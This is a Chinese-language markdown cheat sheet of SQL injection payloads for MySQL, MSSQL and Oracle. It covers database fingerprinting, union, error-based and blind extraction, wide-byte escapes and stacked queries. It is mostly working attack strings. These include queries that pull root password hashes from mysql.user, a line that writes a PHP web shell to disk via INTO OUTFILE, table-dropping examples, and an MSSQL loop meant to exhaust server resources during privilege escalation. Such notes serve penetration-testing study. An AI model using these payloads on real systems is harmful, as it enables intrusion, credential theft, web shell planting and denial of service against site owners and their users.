<!--
 * @Author: xxlin
 * @Date: 2017-09-18 17:22:10
 * @LastEditors: xxlin
 * @LastEditTime: 2019-07-25 18:26:06
 -->
# sql注入基础知识

## 判断数据库类型

```sql
Mysql: /?param=1 select count(*) from information_schema.tables group by concat(version(),floor(rand(0)*2))
MSSQL: /?param=1 and(1)=convert(int,@@version)--
Sybase: /?param=1 and(1)=convert(int,@@version)--
Oracle >=9.0: /?param=1 and(1)=(select upper(XMLType(chr(60)||chr(58)||chr(58)||(select replace(banner,chr(32),chr(58)) from sys.v\_$version where rownum=1)||chr(62))) from dual)—
PostgreSQL: /?param=1 and(1)=cast(version() as numeric)--
```

## 检查注入的思路

- 通过加单引号 双引号看看是否有报错。
    - 有报错（不一定有注入）：
        - 通过拼接语句来进行状态判断
            - and ,or
            
    - 没有报错（有可能是盲注）：
        - 如果关闭错误回显的话 基于报错注入就不可能了。
        - 构造语句利用延时注入和联合注入进行攻击
            - sleep benchmark extractvalue
            
- 看状态码(正常的话是200 注入的话可能会存在500 302等)

- 特殊注入需要额外观察：
    - 宽字节注入
    - url二次注入

# Mysql注入

## 基础知识

### 查看当前数据库版本

```txt
VERSION()
@@VERSION
@@GLOBAL.VERSION
```

### 查看当前编码

```txt
show variables like 'character_set_database';
使用SQL语句：
alter database xxx CHARACTER SET gb2312;
可以设置xxx数据库的编码为gb2312.
```

### 主机名

```
@@hostname
```

### 操作系统

```
@@version_compile_os
```

### 当前登录用户

```
USER()
CURRENT_USER()
SYSTEM_USER()
SESSION_USER()
```

### 当前使用的数据库

```
DATABASE()
SCHEMA()
```

### 常用路径

```
@@secure_file_priv              #查询安全文件上传路径
@@BASEDIR                       #mysql安装路径
@@SLAVE_LOAD_TMPDIR             #临时文件夹路径
@@DATADIR                       #数据存储路径
@@CHARACTER_SETS_DIR            #字符集设置文件路径
@@LOG_ERROR                     #错误日志文件路径
@@PID_FILE                      #pid-file文件路径
@@SLAVE_LOAD_TMPDIR             #临时文件夹路径
```

### 常用关键字

```
select
insert
update
where
limit                           #读取记录
hex
```

### 运算符

```
http://blog.csdn.net/wxq544483342/article/details/51476348
```

### 其他

```
@@GROUP_CONCAT_MAX_LEN          #
@@max_allowed_packet            #要读取的文件大小必须小于 max_allowed_packet
```

### 常用函数

```
system_user()                   #系统用户名
user()                          #用户名
current_user()                  #当前用户名
session_user()                  #连接数据库的用户名
database()                      #数据库名
version()                       #MYSQL数据库版本
load_file()                     #MYSQL读取本地文件的函数
mod(N,M)                        #该函数返回N除以M后的余数
concat()                        #函数在连接字符串的时候，只要其中一个是NULL,那么将返回NULLMySQL的concat函数在连接字符串的时候，只要其中一个是NULL,那么将返回NULL
concat_ws()                     #函数在执行的时候,不会因为NULL值而返回NULL
group_concat()                  #
```

### 字母/数字相关

```
ASCII():                        #返回字符串 str 中最左边字符的 ASCII 代码值
BIN():                          #返回值的二进制串表示
CONV():                         #进制转换
convert()                       #
char_length()                   #
FLOOR()                         #
ROUND()                         #
LOWER()                         #成小写字母
UPPER()                         #转成大写字母
HEX()                           #返回参数的16进制数的字符串形式
UNHEX()                         #十六进制解码
```

### 字符串截取

```
left()	                        #返回字符串 str 自左数的 len 个字符。如果任一参数为 NULL，则返回 NULL
right()	                        #返回 str 右边末 len 位的字符。如果有的参数是 NULL 值，则返回 NULL
substr()                        #同下
SUBSTRING(str,pos)              #从pos开始取，取len长度
SUBSTRING(str FROM pos)         #从from开始取
SUBSTRING(str,pos,len)          #从pos开始取，取len长度
SUBSTRING(str FROM pos FOR len) #从from开始取，取len长度，mid()适用
substring_index()               #SUBSTRING_INDEX(str,delim,count)返回 str 中第 count 次出现的分隔符 delim 之前的子字符串。如果 count 为正数，将最后一个分隔符左边（因为是从左数分隔符）的所有内容作为子字符串返回；如果 count 为负值，返回最后一个分隔符右边（因为是从右数分隔符）的所有内容作为子字符串返回
mid()                           #MID(str,pos,len) 作用等同于 SUBSTRING(str,pos,len)
LPAD(str,len,padstr)            #左补齐函数。将字符串 str 左侧利用字符串 padstr 补齐为整体长度为 len 的字符串。如果 str 大于 len，则返回值会缩减到 len 个字符
RPAD(str,len,padstr)            #右补齐函数
```

### 注释

```
从'#'字符到行尾。
从'--空格'序列到行尾。
从/*序列到后面的*/序列。结束序列不一定在同一行中，因此该语法允许注释跨越多行。
//, -- , /**/, #, --+, -- -, ;%00 , `
```

## 普通注入技术

### 流程

1. 判断是数字型还是字符型注入
2. 猜测语句，构造闭合
3. 注入

### 常见sql注入位置

```txt
常见GET、POST参数
http头(xxf,cookie)
```

### 常见语句格式

```txt
格式：               闭合：
id=1                不需要
id=''               '#
id=""               "#
id=('')             ')--
id=((''))           '))/*
```

### 判断是否存在注入

假设有: <http://www.test.com/test.php?id=1>

#### 数值型注入

```
test.php?id=1+1
test.php?id=-1 or 1=1
test.php?id=-1 or 10-2=8
test.php?id=1 and 1=2
test.php?id=1 and 1=1
```

#### 字符型注入

```
参数被引号包围，我们需要闭合引号。
test.php?id=1'
test.php?id=1"
test.php?id=1' and '1'='1
test.php?id=1" and "1"="1
```
#### 联合查询
```
查询列数
用UNION SELECT注入时，若后面要注出的数据的列与原数据列数不同，则会失败。所以需要先猜解列数。
UNION SELECT

UNION SELECT 1,2,3 #
UNION ALL SELECT 1,2,3 #
UNION ALL SELECT null,null,null #
ORDER BY

使用union注入：
（1）猜表名
exists(select * from tab_name)
存在返回1，不存在则报错ERROR 1146

（2）猜列数
union select 1,2,3

（3）猜列名
exists(select col_name from tab_name)
存在返回1，不存在则报错ERROR 1054

（4）猜字段
爆出显示位：
union select 1,2,3,4,5 from tab_name;
替换显示位：
union select 1,2,col_name,4,5 from tab_name;

利用二分法
ORDER BY 10 #
ORDER BY 5  #
ORDER BY 2  #
```

### 常用通用爆库数据

```
select(col_name)from(tab_name)where(length(passwd))=len                                             #猜长度
select group_concat(schema_name) from information_schema.schemata;                                  #MySQL >= 5.0
select distinct(db) from mysql.db                                                                   #需要特权

select (group_concat(table_name)) from information_schema.tables where table_schema=database();     #当前库所有表名
select (group_concat(column_name)) from information_schema.columns where (table_name=十六进制表名);  #一次爆出列名，十六进制表名要加0x，不用十六进制的时候，记得加单/双引号
select column_name from information_schema.columns where table_name=十六进制表名 limit 0,1;          #爆列名，一条条来
select 列名 from 表名;  
select right(group_concat(列名),30) from 数据库名.表名                                                                             #爆记录

备注：
报错的话，用mysql.tab_name的形式，查询数据表
```

### 常用语句

```
0.select Password from mysql.user where User='root' limit 0,1;                      #查询root账户密码
1.select table_name from information_schema.tables where table_schema=database();   #查询数据库的所有数据表
2.update tab_name set col_name=val;                                                 #更新字段值
3.insert into tab_name values(val1,val2);                                           #往tab_name表中插入一条字段1值为val1，字段2值为val2的记录
4.delete from tab_name where col_name = val;                                        #删除一条字段为"val"的记录
5.select count(*) from db_name.tab_name >=1                                         #判断记录数是否大于等于1条
6.select char_length((select id from apptest.answer limit 0,1))                     #判断记录长度
7.show variables like '%char%';                                                     #查看字符集
8.show variables like '%secure%';                                                   #查看可导出路径

username=1';show databases# 查看数据库名

username=1';show tables from english# 查看数据库中的表

username=1';show tables#

username=1';show columns from score# 查看表中的字段
堆叠查询
username=1';set @sql=concat('up','date `score` set listen=123 where username="火华"');prepare sql_exe FROM @sql;execute sql_exe#

```

### 其他insert/update/delete注入

```
https://xz.aliyun.com/t/2288
https://www.anquanke.com/post/id/85487
http://vinc.top/2017/04/06/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91insert%E3%80%81update%E5%92%8Cdelete%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/
http://wps2015.org/drops/drops/%E5%88%A9%E7%94%A8insert%EF%BC%8Cupdate%E5%92%8Cdelete%E6%B3%A8%E5%85%A5%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE.html
http://vinc.top/2017/04/06/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91insert%E3%80%81update%E5%92%8Cdelete%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8/
等待补充

payload:
insert into math1 values (11,'name' xor updatexml(3,concat(0x7e,(version())),0) xor '');
insert into math1 values (23,'name'^updatexml(2,concat(0x7e,(version())),0)^'');


update math1 set name = 'bbbx' and updatexml(2,concat(0x7e,(version())),0) and '';
delete from math1 where id = 13 or updatexml(2,concat(0x7e,(version())),0) or '';


-------------------------------------------------------------------------------------------------
insert into math1 values (14,'name' or updatexml(2,concat(0x7e,(user())),0) or '');
insert into math1 values (14,'name' or updatexml(2,user(),0) or '');


delete from math1 where id = 5 or updatexml(2,concat(0x7e,(select user())),0);

update math1 set name = 'test' or updatexml(2,concat(0x7e,(select concat_ws(0x7e,id,name) from (select * from math1)xx limit 0,1)),0) where id = 5;

update math1 set name = 'test' and (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT concat_ws(0x7e,id,name) FROM math1 LIMIT 0,1) ) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) and '' where id = 5;
```

### 使用load_file()读取文件

```
需要：
路径，文件名，FILE权限，文件可读，目录可写，文件不能已存在，文件小于max_allowed_packet 字节，文件不满足上述条件，函数返回NUll

判断:
1、必须有权限读取并且文件必须完全可读 
and (select count(*) from mysql.user)>0/* 如果结果返回正常,说明具有读写权限。
and (select count(*) from mysql.user)>0/* 返回错误，应该是管理员给数据库帐户降权了。
2、欲读取文件必须在服务器上 
3、必须指定文件完整的路径 
4、欲读取文件必须小于 max_allowed_packet 

写文件：
select into outfile写入小马：
union select '<?php eval($_POST[cmd])?>'  into outfile 'c://a.php';
payload：
UNION SELECT DATABASE() INTO OUTFILE 'C:\\phpstudy\\WWW\\test\\1';
UNION SELECT DATABASE() INTO OUTFILE 'C:/phpstudy/WWW/test/1';
编码处理：
SELECT LOAD_FILE(CHAR(67,58,92,92,84,69,83,84,46,116,120,116))  #ASCII码
SELECT LOAD_FILE(0x433a5c5c544553542e747874)    #16进制
```

### 使用into outfile注射

```
pass
```

## 高级注入技术（limit，order，二次注入）

### limit后面注入：

```
支持报错payload:
procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);

不支持报错payload：
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)

select BENCHMARK(40000000,SHA1(1));

本机跑14s：
select BENCHMARK(50000000,SHA1(1));

limit后的注入，使用analyse()只能5.0.0<mysql<5.6.6的版本
http://vinc.top/2016/06/20/mysql-order-by-%E5%90%8E%E6%B3%A8%E5%85%A5/
https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html
http://www.freebuf.com/articles/web/57528.html
http://vinc.top/2017/04/01/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91mysql-limit-%E6%B3%A8%E5%85%A5/	(good)
https://rdot.org/forum/showpost.php?p=36186&postcount=30
```
### order by后面注入：
```
http://xdxd.love/2016/03/07/order-by%E6%B3%A8%E5%85%A5%E7%82%B9%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F/
判断是否存在注入：
id+asc
id+desc
order by盲注:
http://wonderkun.cc/index.html/?p=547

```
盲注：
需要知道字段名
1，使用 if(1<2,id,domain)或者类似的表达式来布尔盲注或者时间盲注。

(select case when (true) then id else price end)

if((selectchar(substring(table_name,1,1)) from information_schema.tables limit 1)<=128),id,price)
条件判断之后选择的字段名，id，domain，不能是1，2，所以一定要知道字段名。猜测是写1，2的话被判断为字符了。

1,基于表达式结果盲注

案例：http://www.wooyun.org/bugs/wooyun-2010-07406

不过以上的这些技巧都需要一些条件，目前看来order by注入跟where条件注入具有同样的布尔盲注和时间注入的方式，利用方式也比较成熟。所以这些技巧只能用来开阔思路了。

成熟的利用方式
基于order by 1,2 时间盲注：
payload:

asc,if(locate(\''+payload+'\',substring(user(),'+str(i)+',1)),sleep(3),1)
基于order by 1,2 引起mysql错误进行盲注

payload:

id,if(1=1,1,(select 1 from information_schema.tables))
当条件为false是，值为select 1 from information_schema.tables，mysql会报错，Subquery returns more than 1 row，导致查询结果为空。

案例：http://www.wooyun.org/bugs/wooyun-2010-076151

基于 order by rand(true);order by rand(false);返回不同进行盲注
payload:rand(ascii(mid(database(),1,1))=109)

案例：http://www.wooyun.org/bugs/wooyun-2010-0152570

关于order by rand(true)和order by rand(false)返回不同的培训原理是 order by rand()会随机给每个数据生成一个随机数，然后按照随机数培训，true和false实际上转成了整形的1和0作为rand()的种子，这样给每一列都会成一个固定的数，然后根据这个数来排序，所以结果会不同。

参考这里的讨论：http://zone.wooyun.org/content/25733

sqlmap利用方式
使用level5 risk3

Parameter: sort (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: sort=1 RLIKE (SELECT (CASE WHEN (9644=9644) THEN 1 ELSE 0x28 END))
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
    Payload: sort=1 AND (SELECT * FROM (SELECT(SLEEP(5)))MVan)

```
```
### 有回显位的SQL注入：
```
判断列数：
order by num

limit后可以利用：
limit 1 into @,@    #（@为字段数）判断字段数@为mysql临时变量,这是是两列的例子

其他参考通用
```
### 无回显位但是有报错提示的：
#### xpath报错注入(mysql>=5.1.5，order by后也可用)：
```
(可获取31个字符)
updatexml(1,concat(0x7e,(select/**/user()),0x7e),1)--+
1'and updatexml(1,concat(0x7e,database(),0x7e),1)--+
extractvalue(1,concat(0x24,(select/**/user())))
```
#### floor,主键重复报错：
```
and select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);
and (select count(*) from (select 1 union select null union select  !1)x group by concat((select user()),floor(rand(0)*2)));

NAME_CONST列名重复报错(MySQL 5.0.12加入):
and exists(select*from (select*from(select name_const(@@version,0))a join (select name_const(@@version,0))b)c)
and exists(select*from (select*from(select name_const((select concat(user,password) from mysql.user limit 0,1),0))a join (select name_const((select concat(user,password) from mysql.user limit 0,1),0))b)c)
```
#### join报错注入：
```
下面以爆mysql.user表为例爆字段名的过程：
（1）爆第一个列名
union select * from(select * from mysql.user a join mysql.user b)c;
（2）爆第二个列名（使用using）
union select * from(select * from mysql.user a join mysql.user b using(Host))c;
（3）爆第三列名（还是使用using，参数是前两个列的列名）
union select * from(select * from mysql.user a join mysql.user b using(Host,User))c;
依次类推，只要修改语句的using即可。
爆数据
union select * from(select * from math1 a join math1 b using(id,name))c
```
#### BIGINT等数据类型溢出报错（mysql<5.5.53可用，且报错信息长度有限）：
```
select exp(~(select*from(select user())x));
select !(select*from(select user())x)-~0;
类推：
select !hex((select*from(select user())x))-~0;
select !ceil((select*from(select user())x))-~0;
select !atan((select*from(select user())x))-~0;
select !rand((select*from(select user())a))-~0;
select !sqrt((select*from(select user())a))-~0;
select !round((select*from(select user())a))-~0;
select !sign((select*from(select user())a))-~0;
select !floor((select*from(select user())a))-~0;
select !tan((select*from(select user())a))-~0;
select !ceiling((select*from(select user())a))-~0;
select !exp((select*from(select user())x))-~0;
select !(select*from(select user())a)-~1^200;
```
#### 其他报错
```
polygon、multipoint、multilinestring、multipolygon、linestring

得到库名：
payload:
select * from math1 where id=1 union select 1 from flag;
ERROR 1146 (42S02): Table 'myclass.flag' doesn't exist

得到表名：
payload:
select * from math1 where id=0 and linestring(id)
ERROR 1367 (22007): Illegal non geometric '`myclass`.`math1`.`id`' value found during parsing
```
### 有显示但是无回显位的：
```
(就是查询正确和查询错误页面返回结果不一致的)
此类一般用盲注：
payload:
and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>50)-- 
```
### 无显示无回显的：
```
and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))>50,1,sleep(5))--+
```
### 盲注
#### 盲注场景：
```
1.通过前面的测试会发现页面没有回显提取的数据，但是根据语句是否执行成功与否会有一些相应的变化。
2.正确/错误的语句使得页面有适度的变化。可以尝试使用布尔注入
3.正确语句返回正常页面，错误的语句返回通用错误页面。可以尝试使用布尔注入。
4.提交错误语句，不影响页面的正常输出。建议尝试使用延时注入。

几种简单的判断语句，在真实利用中需要根据情况而变化:
CASE
IF()
IFNULL()
NULLIF()
```
#### 布尔盲注-基于响应
```
提交一个逻辑判断语句，来推断一个个的信息位。由于注入需要（一般）一个个字符的进行，所以需要利用脚本，或者工具（比如burp suite）。以下是：
payload:
// i 用于提取每一个位，j 用于判断其对应的ASCII码值的范围。
// k ，结合limit，选择偏移为k的行
// **中可以填上其他的select语句，比如查询表名，列名，数据。一次类推。
// SUBSTR() 也可以换成 SUBSTRING()
' OR (SELECT ASCII(SUBSTR(DATABASE(),i,1) ) < j) #
' OR (SELECT ASCII(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) ) < j) #  
' OR (SELECT SUBSTR(DATABASE(),i,1) < j) #
' OR (SELECT SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j) #  
' OR SUBSTR((SELECT schema_name FROM INFORMATION_SCHEMA.SCHEMATA LIMIT k,1),i,1) < j #
```
#### 延时盲注-基于时间
```
一般会用到几个函数。使用这些的效果，是为了延缓mysql的操作，从而检测到与平时有异的情况：
SLEEP(n) 让mysql停n秒钟
BENCHMARK(count,expr) 重复countTimes次执行表达式expr

一些注意事项：
使用基于时间的盲注比较不准确，因为这还取决于当前的网络环境。
时间延缓最好不要超过30秒，否则容易导致mysql的API连接超时。
当在页面上看不到任何明显变化时，再考虑选择使用延时注入。

检测方法:
1 and sleep(5)=0 limit 1 #
1) OR SLEEP(25)=0 LIMIT 1 #
1' OR SLEEP(25)=0 LIMIT 1 #
') OR SLEEP(25)=0 LIMIT 1 #
1)) OR SLEEP(25)=0 LIMIT 1 #
SELECT SLEEP(25) #

延迟三秒:
BENCHMARK(100000,SHA1(1))


payload:
if(xxxxx,1,sleep(2))
UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,BENCHMARK(100000,SHA1(1)),0)
UNION SELECT IF(SUBSTR((SELECT GROUP_CONCAT(schema_name SEPARATOR 0x3c62723e) FROM INFORMATION_SCHEMA.SCHEMATA),i,1) < j,SLEEP(10),0)
```
#### 盲注常用ascii
```
w=119
f=102
r=114
o=111
t=116
u=117
5=53
1=49
```
### 特殊注入：
#### 引号逃逸：
##### 宽字节逃逸：
```
观察网页编码：
<meta charset="gb2312" />

GBK编码，它的编码范围是0x8140~0xFEFE（不包括xx7F），在遇到%df(ascii(223))>ascii(128)时自动拼接%5c，因此吃掉'\'，而%27、%20小于ascii(128)的字符就保留了。
补充：
1.GB2312是被GBK兼容的，它的高位范围是0xA1~0xF7，低位范围是0xA1~0xFE（0x5C不在该范围内），因此不能使用编码吃掉%5c。其它的宽字符集也是一样的分析过程，要吃掉%5c，只需要低位中包含正常的0x5c就行了。
2.Mysql编码与过滤函数推荐使用mysql_real_escape_string()，mysql_set_charset()。
3.转编码函数同样会引起宽字节注入，即使使用了安全的设置函数。
常用payload：
%df%27
%e5%5c%27
%e9%8c%a6
index.php?name=1%df'
index.php?name=1%a1'
index.php?name=1%aa'
```

##### 转义逃逸

```
利用\转义
payload:
index.php?name=%**%5c%5c%27
```

### 图片注入

```
图片插入到数据库中，需要查询提取数据
例题：
http://lab1.xseclab.com/sqli6_f37a4a60a4a234cd309ce48ce45b9b00/images/dog1%df%27union%20select%201,2,user(),4%23.jpg
```

### 堆叠查询注入

```
mysqli_multi_query函数，可以执行多行 SQL 语句

payload:
username=1';set @sql=concat('up','date `score` set listen=123 where username="火华"');prepare sql_exe FROM @sql;execute sql_exe#
-1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#
```
## 其他要点

### 易错点

```txt
隐式转换：
MariaDB [myclass]> select "-1"=-1;
+---------+
| "-1"=-1 |
+---------+
|       1 |
+---------+
1 row in set (0.00 sec)

MariaDB [myclass]> select "-1"=1;
+--------+
| "-1"=1 |
+--------+
|      0 |
+--------+
1 row in set (0.00 sec)

字符等于0：
MariaDB [myclass]> select 'aaa'=0;
+---------+
| 'aaa'=0 |
+---------+
|       1 |
+---------+
1 row in set, 1 warning (0.00 sec)

MariaDB [myclass]> select 'aaa'=1;
+---------+
| 'aaa'=1 |
+---------+
|       0 |
+---------+
1 row in set, 1 warning (0.00 sec)

MariaDB [myclass]> select 'aaa'+123;
+-----------+
| 'aaa'+123 |
+-----------+
|       123 |
+-----------+
1 row in set, 1 warning (0.00 sec)
```

### Mysql字符编码利用技巧

```txt
传入的username=admin%c2，php的检测if ($username === 'admin')自然就可以绕过的，在mysql中可以正常查出username='admin'的结果
原理是Mysql在转换字符集的时候，将不完整的字符给忽略了。
具体可参照P师傅文章:https://www.leavesongs.com/PENETRATION/mysql-charset-trick.html
```

### 隐式类型转换

```txt
1.字符串为：0 false
2.非零数字+字符串为：非0数字 ture
3.零+字符串为：0 false
总结：mysql也会把字符串强制转化为开头的数字，若开头是字母则强制转化为0
```
## 版本特性

```txt
mysql5.0以后 information.schema库出现
mysql5.1以后 udf 导入xx\lib\plugin\ 目录下
mysql5.x以后 system执行命令
```

## 最新技术

```
SQL注入的两个小Trick与总结
https://www.anquanke.com/post/id/158674
```

# Mssql注入

## 基础知识

### 常用payload

```txt
初步注入：
Version             SELECT @@VERSION
Current User        SELECT user_name();
                    SELECT system_user;
                    SELECT user;
                    SELECT loginame FROM master..sysprocesses WHERE spid = @@SPID 
Current Database    SELECT db_name()
```

## 报错注入

```txt
Error Based SQLi
For integer inputs : convert(int,@@version)
For string inputs  : ' + convert(int,@@version) +'

The attacks above should throw conversion errors.
Clear SQLi Tests These tests are simply good for boolean sql injection and silent attacks.

product.asp?id=4
product.asp?id=5-1
product.asp?id=4 OR 1=1
```

## 时间盲注

```txt
WAITFOR DELAY
'0:0:10'--
Real World Samples ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

注释：
DROP sampletable;--
DROP sampletable;# 
Username: admin'--
SELECT * FROM members WHERE username = 'admin'--' AND password = 'password'

DROP/*comment*/sampletable
DR/**/OP/*bypass blacklisting*/sampletable
```

## 布尔盲注

```txt
SQL Server If Statement
IF condition true-part ELSE false-part (S)
IF (1=1) SELECT 'true' ELSE SELECT 'false'
If Statement SQL Injection Attack Samples

if ((select user) = 'sa' OR (select user) = 'dbo') select 1 else select 1/0 (S)
This will throw an divide by zero error if current logged user is not "sa" or "dbo".

绕过逗号：
SELECT CHAR(75)+CHAR(76)+CHAR(77)
This will return 'KLM'.
```

## 特殊查询

```sql
sqlserver查找某个字段在哪张表里
select [name] from [库名].[dbo].sysobjects where id in(select id from [库名].[dbo].syscolumns Where name='字段名')
```

## 执行命令

mssql注入技巧

https://www.waitalone.cn/sqlserver-inject-skills.html

MSSQL多种姿势拿shell和提权

https://y4er.com/post/mssql-getshell/#getshell

## dba权限

## db_owner权限

日志备份提权操作。我们继续在提权中发现需要等待管理员的登录或者重启操作，但是可能管理员很久都不会登陆，当然我们只能使用一些非常手段，这里提到的不是ddos，而是数据库负载。对，我们需要的是加大数据库负载，当然也需要一定的条件，就是我们需要一个注入点或者能执行SQL命令的地方(;wHiLe 1<9 bEgIn sElEcT cHaR(0) eNd--)，我们执行括号中的命令就可以了，意思是将范围中的数值进行转换，一直到服务器资源耗尽，当然如果管理员在这方面做了限制那么就无法起到效果了，例如：ASP的执行时间。


## public权限

# Oracle注入

## 识别注入点

```txt
判断注入点：
使用经典的单引号,and 1=1,1=2即可，视具体环境可能需要进行一些绕过的操作

确定数据库类型payload:
||,如and '12'='1'||'2'
and exists(select * from dual/user_tables)
```

## 显错注入

```txt
在能够显示出具体报错信息的情况下，个人更加倾向使用报错注入，这样能够以一个更快的速度，去获取我们想要的信息

常用函数：
utl_inaddr.get_host_name()    #这个支持oracle10及以下，不支持oracle11
ctxsys.drithsx.sn()           #这个支持oracle11

测试:
utl_inaddr.get_host_name()
```


```txt
ctxsys.drithsx.sn()
```



```txt
两个测试都可以得到连接用户为DATASPT

payload:
or 1=utl_inaddr.get_host_address((sql注入语句))

注意：这里要加双层括号，否则会提示缺失表达式；以及注意短路求值机制，我们必须让这条语句得到执行，另外优先级为先and后or

这个函数的本意是获取ip地址，但是如果传递参数无法得到解析就会返回一个oracle错误并显示传递的参数。我们传递的是一个sql语句所以返回的就是语句执行的结果。oracle在启动之后，把一些系统变量都放置到一些特定的视图当中，可以利用这些视图获得想要的东西。通常非常重要的信息有：
1 当前用户权限 select * from session_roles where rownum=1
2 当前数据库版本 select banner from sys.v_$version where rownum=1
3 服务器出口IP 用utl_http.request 可以实现
4 服务器监听IP select utl_inaddr.get_host_address from dual
5 服务器操作系统 select member from v$logfile where rownum=1
6 服务器sid 远程连接的话需要，select instance_name fromv$instance; ' n
7 当前连接用户 select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual
信息收集完毕，开始注入，先来查找可能含有后台密码信息表和列：
查看名字类似于PASSWORD的表有几个：
select count(*) from user_tab_columns where column_name like '%25PASS%25'

接下来，鉴于使用where rownum=1 and table_name<>'前面查到的表名'的方法需要在不等号的后面不断地添加新的表名，操作起来较为繁琐，这里给出了另外的一种注入方法：
select data from (select rownum as limit,table_name||'--->'||column_name as data from user_tab_columns where column_name like '%PASSWORD%') where limit =2   //由于rownum的伪列性质，这里要嵌套，不然会提示未选定列

这样只要修改一个数字即可实现得到信息，方便挂载到burp上自动来跑：

查列名：
select data from (selEct rownum as limit,column_name as data from user_tab_columns whEre table_name=你刚才查到的tablename) whEre limit =1

查数据：
Select data from (selEct rownum as limit,PASSWORD||chr(35)||id||chr(35)||列名1||chr(35)||列名2||chr(35)||列名3 as data from 表名        //使用||一次性查出一堆数据
```

## oracle联合查询

（以下内容为可union select，有回显的情况下）

```txt
判断字段数：
order by N (数字型或者注释可用)   union select null,null,null  from ... (引号包裹且注释符不可用)

确定字段N的值后，and 1=2 union select NULL,NULL,.... from dual 再把这些NULL逐步的替换成数字，变成数字报错的话，就用字符去试，最终确定所有字段的数据类型

找到回显位置后，我们可以通过把回显位置的数字换成下列语句来获取信息：
获取数据库版本：select banner from sys.v_$version where rownum=1

获取操作系统版本：select member from v$logfile where rownum=1
获取当前连接数据库的用户：select SYS_CONTEXT ('USERENV', 'CURRENT_USER')from dual
...

信息收集完毕，接下来来获取表的信息:
select table_name from user_tables where rownum=1

select table_name from user_tables where rownum=1 and table_name<>'第一个表名'

或者我们想要快一点的话，就像报错注入一样，获取到所有表的名字：
select data from (select rownum as limit,table_name||'--->'||column_name as data from user_tab_columns where column_name like '%PASSWORD%') where limit =N

获取列的信息：
select column_name from user_tab_columns where table_name='manage' and rownum=1

select column_name from user_tab_columns where table_name='manage' and rownum=1 and column_name<>'第一个列名'

快一点的方法：
select data from (select rownum as limit,column_name as data from user_tab_columns whEre table_name=你刚才查到的tablename) where limit =N

从而可以获得所有的列名。

获取数据:
and 1=2 union select 1,2,列名,4,5,6 from 表名

快一点的方法就是通过使用||，来一次性查出多个列中的数据。
获取其他的数据库:
select owner from all_tables where rownum=1
select owner from all_tables where rownum=1 and owner<>'第一个数据库库名'
从而就可以获取到所有的数据库
```

## oracle盲注

在注入点由于无法回显、或者SQL语句难以闭合导致无法使用union select或者注释，或者报错时并不显示出详细的报错信息时，基本就需要盲注了。

### oracle布尔盲注

例如在一个查询处，我们可以通过name=xxX得到一条正确的数据，这时候就可以使用布尔型的盲注（以获取user表的长度为例）：

```txt
xxX' and (select length(user) from dual)=N or '1'='1     //N为我们猜测的长度，即直接使用and一个与注入有关的表达式，来做布尔型的判断。
```

或者我们可以使用基于值的方式:

```txt
xx'||decode((SELECT length(user) from dual),N,'X','1') or '1'='1    //decode即相当于ORACLE中的if语句，如果长度为N就返回最后一位X，即让查询成功。
```

获取user表的内容：

```txt
xxX' and (ascii(substr((select user from dual),1,1)))=猜测的ascii码 or '1'='1
```

常用payload：

```txt
1) AND 4130=5598 AND (8042=8042
1) AND 6785=6785 AND (6807=6807
1 AND 9314=2888
1 AND 6785=6785
1 AND 9975=9573-- IGvt
1 AND 6785=6785-- QaMs
1') AND 3166=2235 AND ('EpuN'='EpuN
1') AND 6785=6785 AND ('lahe'='lahe
1' AND 6548=8240 AND 'QLjp'='QLjp
1' AND 6785=6785 AND 'OijB'='OijB
```

### oracle报错盲注

```txt
比如最近遇到一个注入点，尽管会报错但是并不爆出具体信息，无法报错注入；SQL语句未知且注释不可用导致union select无法闭合；查询本身是没有返回数据的，所以也不能使用布尔型blind；在这个情况下，我们使用error-based-blind(在没查询数据但能报错的时候，通过是否报错来判断表达式是否正确)：

这里同样用到了decode()，以及能够使数据库报错的case()函数：
(select cast(需要转换的值 as 新的数据类型) from dual)    //我们在试图把一个形如'yy'的字符串转换为int型的时候，ORACLE数据库会报错

注意:函数参数整体都要用括号包裹起来，否则会提示缺少右括号，原理就是把‘yy’这样的字符串cast成int的时候会报Invalid Value的错误
从而我们最终的注入语句为:
123' or 1=(select cast((decode((SELECT length(user) from dual),N,'1','yy')) as int) from dual) or '1'='1
从而可以得到user的长度。

获取每一位的数据：
123' or 1=(select cast((decode((ascii(substr((select user from dual),1,1))),1,'1','yy')) as int) from dual) or '1'='1

使用burpsuit来把大写字母的ASCII遍历一遍，最终得到user的名称。
